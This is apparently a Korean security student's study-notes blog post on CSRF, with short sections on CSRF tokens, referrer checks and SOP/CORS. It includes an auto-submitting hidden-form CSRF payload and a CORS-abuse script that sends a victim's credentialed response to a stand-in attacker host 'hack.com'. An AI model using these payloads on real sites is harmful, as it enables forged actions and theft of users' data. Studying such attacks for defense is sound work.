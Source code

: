 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[WEB HACKING] CSRF란?"
excerpt: "모의해킹 취업반 스터디 7기 12 ~ 13주차"

date: 2025-01-09
last_modified_at: 2025-01-18

tags: [TIL, WEB, SECURITY]
---
```


# CSRF란?
## 1. 개요
**CRSF(Cross Site Request Forgery)**: 
-> 피해자가 서버로 공격자가 원하는 요청을 하게 만드는 것
웹 애플리케이션 취약점 중 하나로 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 하여 특정 웹페이지를 보안에 취약하게 한다거나 수정, 삭제 등의 작업을 하게 만드는 공격방법을 의미한다. 유명 경매 사이트 옥션의 개인정보 유출 사건에 사용된 공격 방식이다.

## 취약점
모든 요청에서 발생 가능

## 공격방식

## 공격유형

## 공격 구문 예시
## post method로만 파라미터 전달이 가능할 때 csrf 공격방식
form tag를 삽입해야 한다 -> XSS로부터 무결해야 한다

```html
<iframe style="display:none" name="frame"></iframe>

<form method="POST" action="link" id="test" target="frame">
<input type="hidden" name="email" value="test@example.com"/>
</form>

<script>
document.getElementById('test').submit();
</script>
```

## 공격 순서
모든 요청에서 CSRF가 발생가능하다
이 요청은 위조해도 되는가
이 요청은 함부로 위조할 수 있는가

## 대응방안
### CSRF Token
csrf 공격을 막기 위해 만든 random한 token
마이페이지에 접근할 때 토큰 발행

```html
<form>
<input type="hidden" name="csrfToken" value="random_value">
</form>
```

정보를 수정할 때 csrf 토큰을 함께 받도록 요청한다
csrf 토큰도 탈취해야 하는구나?
사용자의 form 태그가 있는 페이지에 접근할 때 csrf 토큰이 발행된다

### referrer check
확장성이 떨어질 수 있다
개발자가 예외처리를 했을 경우
-> `<meta name='referrer' content='no-referrer'>`

### 요청을 위조할 수 없게 하자
파라미터에 모르는 데이터를 넣게 하자 -> 인증정보
인증정보를 넣는 것!

### SOP / CORS
#### SOP, Same-Origin Policy
다른 출처의 자원에 접근하지 못하게 브라우저가 막는 것

같은 출처의 기준
- 도메인
- 스키마
- 포트

#### CORS, Cross Origin Resource Sharing
다른 출처에서도 데이터를 쓸 수 있게 함

ACAO Header, Access Controll Allow Origin
-> 응답에 들어감

acao header에 요청이 존재하냐
자원을 허용할 도메인을 등록해두는 것이다

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://target.com/seneitive-data', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'http://hack.com/log?key='+this.responseText;
    };
</script>
```

브라우저에 로드는 되는데 자바스크립트로 접근이 되냐 안되냐는 cors에 등록된 것만 가능하다

-> White List로 개발자가 하나하나 추가해줘야 함
하지만 개발자가 귀찮으시잖아~
`ACAO: *` -> SOP가 없는 것과 마찬가지다
다른 도메인에서 쿠키를 포함해서 요청한 것에 대한 응답은 * 못 씀
ACAC Header
Origin에 있는 데이터를 ACAO 헤더에 그대로 옮겨주자

CSRF
GET 방식이면 프리패스
POST -> XSS, form tag
CORS 정책이 잘 적용되어 있지 않다 -> 공격자 서버 만들어서 공격

# 참고
* [CSRF 공격과 방어 기법](https://velog.io/@gwanuuoo/CSRF-%EA%B3%B5%EA%B2%A9%EA%B3%BC-%EB%B0%A9%EC%96%B4-%EA%B8%B0%EB%B2%95)
* [Spring Security_CSRF Token의 개념과 사용 방법](https://codevang.tistory.com/282)
